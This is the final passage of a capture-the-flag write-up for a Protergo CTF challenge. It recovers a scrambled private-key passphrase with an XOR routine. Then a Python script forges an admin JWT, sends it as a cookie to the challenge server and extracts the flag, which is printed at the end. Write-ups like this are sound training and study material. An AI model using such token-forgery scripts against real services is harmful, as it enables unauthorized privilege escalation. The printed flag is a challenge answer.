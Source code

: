 ```python
random_input_key.append(5)
random_input_key.append(18)
random_input_key.append(25)
random_input_key.append(6)
random_input_key.append(0)
random_input_key.append(21)
random_input_key.append(13)
random_input_key.append(4)
random_input_key.append(22)
random_input_key.append(31)
random_input_key.append(30)
random_input_key.append(12)
random_input_key.append(29)
random_input_key.append(11)
random_input_key.append(10)

result = [None for x in range(0, 32)]
for a in range(0, 32):
    result[random_input_key[a]] = chr(xor_key[a] ^ expected_result[a])

print(''.join(result))
print(''.join(result)[:16], ''.join(result)[16:])
```

![[Screenshot 2024-02-09 at 10.11.34.png]]
![[Screenshot 2024-02-09 at 10.06.42.png]
![[Screenshot 2024-02-09 at 10.12.26.png]]

With this, the private key is already successfully recovered and all need to do is just forge the JWT to achieve privilege escalation.

I used the same technique at [[Protergo CTF - Just Wiggle Toes]] to forge the JWT.
```python
from cryptography.hazmat.primitives import serialization
from cryptography.hazmat.backends import default_backend
import jwt, requests, re
pem_bytes = open('./private.pem', 'rb').read()
passphrase = open('./passphrase', 'rb').read().strip()

private_key = serialization.load_pem_private_key(
    pem_bytes, password=passphrase, backend=default_backend()
)

URL = "http://ctf.protergo.party:10004/"
encoded = jwt.encode({"iss":"http://jakarta.ctf.protergo.party:10003/api/portal_login","iat":1707296171,"exp":99999999999,"nbf":1707296171,"jti":"kKpu6PDBBCiuFhdA","sub":"29","prv":"3da04507aadf132cee732fdee4ef6aa390dec579","is_admin":1}, private_key, algorithm="RS256")

sess = requests.Session()
sess.get(f'{URL}')
res = sess.get(f'{URL}home', cookies={"auth": encoded})
r = re.compile(r'PROTERGO{.*}')
print(r.findall(res.text)[0])
```

![[Screenshot 2024-02-09 at 10.16.21.png]]

FLAG: `PROTERGO{673311e2d939238eaa08e461b0f4be5928293e26ac16ada1b5dbfed335c544b7}`